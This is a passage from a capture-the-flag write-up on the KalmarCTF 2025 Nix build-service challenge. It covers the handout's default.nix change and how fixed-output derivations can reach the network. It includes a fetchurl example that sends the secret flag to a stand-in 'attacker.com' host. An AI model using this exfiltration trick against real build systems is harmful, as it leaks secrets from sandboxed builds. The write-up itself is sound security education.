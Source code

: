 ```rs, hl_lines=18
};
let log = String::from_utf8_lossy(&log);
let last_line = log
    .lines()
    .last()
    .map(|s| s.to_string())
    .unwrap_or_default();

let _ = d.close();

Ok(Main {
    status: Some(output.status.success().into()),
    user_input,
    last_line,
    files,
})
```

### Handout Update

Halfway through the CTF, the handout was updated, nerfing the challenge a bit
by adding the following to `default.nix`:

```diff
>   buildPhase = ''
>     runHook preBuild
>     # TODO: Enable building
>     # "${user-drv}/bin/build"
>     runHook postBuild
>   '';
```

My solution requires this change, but the [intended solution](#intended-solution) that
we will take a look at in a bit does not.

## Investigating Attack Vectors

Now knowing the challenge a bit better, we start to think how we can leak the flag.
Briefly ignoring the limitation of not being allowed to use any builtins, there are two major ways.

Firstly, derivations in Nix are usually built in a sandbox without network access.
A notable exception are [Fixed-Output Derivations (FOD)][fod], of which the cryptographic
hash of the output is known in advance, and therefore can access the network to,
for example, download files.
They are commonly used in fetchers like `fetchurl` and `fetchFromGitHub`.
Using a FOD, we could perform a request to a URL we control, therefore sending the flag
our way, since the hash is naturally only checked _after_ the request is made.
A practical example of this would be:

```nix
fetchurl {
  url = "https://attacker.com/?${flag}";
  hash = "";
}
```


[reproducible-pwning]: /blog/kalmarctf-writeup-reproducible-pwning
[handout]: https://github.com/kalmarunionenctf/kalmarctf/tree/main/2025/misc/nix-build-aas
[ifd]: https://nix.dev/manual/nix/2.24/language/import-from-derivation
[scopedImport-undocumented]: https://github.com/NixOS/nix/issues/1450
[nix-underscore-builtins]: https://discourse.nixos.org/t/readfile-vs-builtins-readfile/12355/3
[overloading-ops]: https://github.com/NixOS/nix/issues/7290#issuecomment-1546846723
[fod]: https://nix.dev/manual/nix/2.24/language/advanced-attributes.html#adv-attr-outputHash
[isDerivation]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/lib/attrsets.nix#L1250-L1282
[nixpkgs]: https://github.com/NixOS/nixpkgs
[derivation]: https://nix.dev/manual/nix/2.24/language/derivations.html
[toString]: https://nix.dev/manual/nix/2.24/language/builtins#builtins-toString
[mkDerivation-getDev]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/stdenv/generic/make-derivation.nix#L346
[mkDerivation-PATH]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/stdenv/generic/setup.sh#L819
[getDev]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/lib/attrsets.nix#L1933-L1960
[getOutput]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/lib/attrsets.nix#L1763-L1799
[hello-fetchurl]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/by-name/he/hello/package.nix#L16-L19
[fetchurl]: https://github.com/nixos/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/build-support/fetchurl/default.nix
[@nrab@hachyderm.io]: https://hachyderm.io/@nrab
[Kalmarunionen]: https://www.kalmarunionen.dk/